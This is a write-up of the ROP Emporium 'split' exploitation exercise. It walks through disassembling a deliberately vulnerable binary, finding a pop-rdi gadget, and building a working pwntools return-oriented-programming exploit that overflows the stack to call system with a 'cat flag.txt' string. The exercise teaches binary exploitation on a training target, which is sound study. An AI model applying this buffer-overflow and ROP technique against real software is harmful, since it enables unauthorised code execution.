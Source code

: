 # split

This one is slightly more complicated, but not by much. Here's where we really get into using gadgets to `ret` our way to the finish line.

Opening the file in `rizin` (I use Cutter because I'm a worthless asshole too stupid to use the command line) we see three things.

```text
sym.main
sym.pwnme
sym.usefulFunction
```

Cool. This looks like last time. Let's check `pwnme` and `usefulFunction`:

```c
void pwnme(void)
{
    char buf [32];
    
    memset(buf, 0, 0x20);
    puts("Contriving a reason to ask user for data...");
    printf(0x40083c);
    read(0, buf, 0x60);
    puts("Thank you!");
    return;
}
```

```c
void usefulFunction(void)
{
    system("/bin/ls");
    return;
}
```

This looks a lot like last time, but now we have a problem. `usefulFunction` calls `system()` like we hope it would, but it runs `ls` instead of `cat flag.txt` like we hoped.

Alright. Cool. Let's take stock.

We need to be able to control two main things:

- the call to `system`,
- the parameter passed to it.

And we do this by overwriting the stack.

We can do this with [return-oriented programming](https://en.wikipedia.org/wiki/Return-oriented_programming). Essentially, we look for gadgets - small pieces of code that usually end with a `ret` instruction. This takes advantage of how `ret` works: It pops off the stack and into `rip`, and jumps to it. This allows us to chain little bits of code together to run arbitrary code, setting up for us to pop our shell. It works like this:

1. We overwrite the saved `rip` with the address of a gadget by taking advantage of a buffer overflow.
2. When `ret` in the gadget is executed, we pop that off the stack and jump to it, executing whatever code before `ret`-ing again.
3. If we fed in the address of another gadget before that, we'll pop _that_ off, and execute _that_ gadget, and so on and so forth.
4. Rinse and repeat until profit.

Great. So we just overwrite the stack with addresses. That settles our call to `system`. What's not settled is the parameter we need to pass to it.

This is where gadgets come into play. We can run `strings` to check for any strings that we can use:

```text
$ strings split | grep bin

/bin/ls
/bin/cat flag.txt
```

Interesting. He was kind enough to leave that in there.

Looking at Cutter, we can figure out the address of that string.

```text
;-- str.bin_cat_flag.txt:
;-- usefulString:
0x00601060          .string "/bin/cat flag.txt" ; len=18
```

It even has the `usefulString` symbol attached to it. How nice.

Great. We have the string to pass, and we have the call to `system` (thankfully imported by `usefulFunction`). Now we just need to mash them together in glorious ROP glory.

The [AMD64 System V calling convention](https://wiki.osdev.org/System_V_ABI#x86-64) states that parameters to functions are passed in registers, specifically `rdi`, `rsi`, `rdx`, `rcx`, `r8`, and `r9`, with any additional parameters pushed on the stack in reverse order. Knowing this, we need to have `rdi` point to our `usefulString` right before the call to `system`.

We can do this with a gadget. Bet you were wondering when we were gonna circle back to this.

Since we control the stack, we have to pass in this address on the stack and somehow get it into `rdi`. Luckily, there's an instruction that can do this, called `pop`. How cute.

So, we're looking for a gadget that executes `pop rdi` and then `ret`. This pops the top of the stack into `rdi`, then returns. Luckily, Cutter has this built right in.

```text
[0x00400742]> /a pop rdi, ret
Searching 1 byte in [0x601090-0x6010d8]
hits: 0
Searching 1 byte in [0x400000-0x4009e0]
hits: 12
Searching 1 byte in [0x601072-0x601088]
hits: 0
Searching 1 byte in [0x600e10-0x601072]
hits: 0
Searching 1 byte in [0x100000-0x1f0000]
hits: 0
fs hits
0x004003e9 hit0_0 5f
0x004003ea hit0_1 5f
0x004003ef hit0_2 5f
0x004003f5 hit0_3 5f
0x00400400 hit0_4 5f
0x00400407 hit0_5 5f
0x00400408 hit0_6 5f
0x0040040d hit0_7 5f
0x00400413 hit0_8 5f
0x00400414 hit0_9 5f
0x004007c3 hit0_10 5f
0x00400801 hit0_11 5f 
```

So many hits. Let's pick `0x4007c3` as our gadget of choice, since looking at Cutter, we know it's in a region marked as executable.

But when we navigate to the function:

```text
0x004007c0      415e                   pop r14
0x004007c2      415f                   pop r15
0x004007c4      c3                     ret
```

What gives?

Turns out, because x86_64 is a multibyte instruction set, instructions don't have to be aligned. We can just jump right into the middle of an instruction, and the CPU, blindly assuming it's at the start of an instruction, will happily interpret it as a completely different instruction.

When we assemble this gadget into machine code:

```python
>>> from pwn import *
>>> context.arch = "amd64"
>>> asm("pop rdi\nret")
b'_\xc3' # the byte representation of '_' is 0x5f.
```

Looking at `0x4007c3`, we see `0x5f, 0xc3`. Exactly what we need.

Cool. We can do our exploit now.

```python
from pwn import *

# this is important so we can parse the ELF correctly
context.arch = "amd64"
elf = context.binary = ELF('./split')

# overflow the stack with these
POP_RDI_GADGET = p64(0x4007c3)
CATFLAG = p64(0x601060)
# interestingly enough, this is the address of system in the PLT. 
# what's the PLT, you ask? research it, it's important.
SYSTEM = p64(elf.symbols.system)

# overflow the buffer
payload = b'A' * 40

# when pwnme returns, pop this address into rip and jump to it
payload += POP_RDI_GADGET
# put this on the stack to be popped into rdi by above gadget
payload += CATFLAG
# when said gadget returns, pop this into rip and jump to it
payload += SYSTEM

conn = process(elf.path)

conn.recvuntil(b'> ')

conn.send(payload)

print(conn.recvall())
```

Running it:

```text
$ python exploit.py

[*] '/home/sammy/Projects/binexp/ropemporium/split/split'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/sammy/Projects/binexp/ropemporium/split/split': pid 193724
[+] Receiving all data: Done (44B)
[*] Process '/home/sammy/Projects/binexp/ropemporium/split/split' stopped with exit code -11 (SIGSEGV) (pid 193724)
b'Thank you!\nROPE{a_placeholder_32byte_flag!}\n'
```

¯\\\_(ツ)_/¯
